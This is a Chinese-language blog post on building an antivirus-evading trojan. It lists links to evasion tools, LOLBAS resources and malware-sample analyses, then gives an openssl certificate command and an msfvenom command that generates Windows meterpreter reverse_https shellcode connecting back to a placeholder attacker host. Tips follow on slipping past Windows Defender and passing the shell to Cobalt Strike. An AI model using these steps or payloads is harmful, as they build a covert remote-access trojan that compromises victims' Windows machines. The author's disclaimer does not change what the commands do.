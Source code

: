 ```yaml
---
layout: post
title: "【网络安全】恶意软件初探"
date: 2025-02-21
author: "3thernet"
header-img: "img/city-2.jpg"
tags: []
---
```


综合文章：

[红队技术 - 钓鱼手法及木马免杀技巧 (Hyyrent blog)](https://pizz33.github.io/posts/53de6033c423/)

免杀工具：

[1y0n/AV_Evasion_Tool： 掩日 - 免杀执行器生成工具](https://github.com/1y0n/AV_Evasion_Tool)

[LOLBAS](https://lolbas-project.github.io/)

[Windows上传并执行恶意代码的N种姿势-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1141143) 白名单文件常被LNK攻击利用

[远控免杀从入门到实践之白名单（113个）总结篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/232074.html)

[Wmic.exe - iNotes](https://ihsansencan.github.io/privilege-escalation/windows/binaries/wmic-exe.html)

样本分析：

[2023011603.pdf](https://wtc.antiy.cn/download/2023011603.pdf)

[黑产组织攻击样本的一些对抗技术 - 先知社区](https://xz.aliyun.com/t/13705?time__1311=GqmxuQD%3DW4cDlxGgx%2BxCwh4joO5Wq6Y63x)

[银狐猎影：深度揭示银狐团伙技战法 - 安全内参 - 决策者的网络安全知识库](https://www.secrss.com/articles/60688)

[Windows 操作系统考古学 - PPT - 免费下载](https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology)

以下为制作一个简易免杀木马的大致流程，比较混乱且不包含真实的恶意代码，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

## 一、制作免杀木马：

用reverse_https能够避免被windows defender动态查杀

1、自签名证书

`openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -keyout ssl.pem -out ssl.pem -subj "/CN=mydomain.com"`

2、hex shellcode：

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=XXX LPORT=xxxx HandlerSSLCert=ssl.pem -f hex -o shellcode.txt`

~~根据需要加入多次编码，防止shellcode被标记`-e x86/shikata_ga_nai -i 30`~~

多次测试发现reverse_https无法编码，请通过重新生成证书来防止被标记，执行migrate和shell会触发Windows Defender运行时扫描，很大可能性被杀，这样子也没有办法派生shell给cobaltstrike
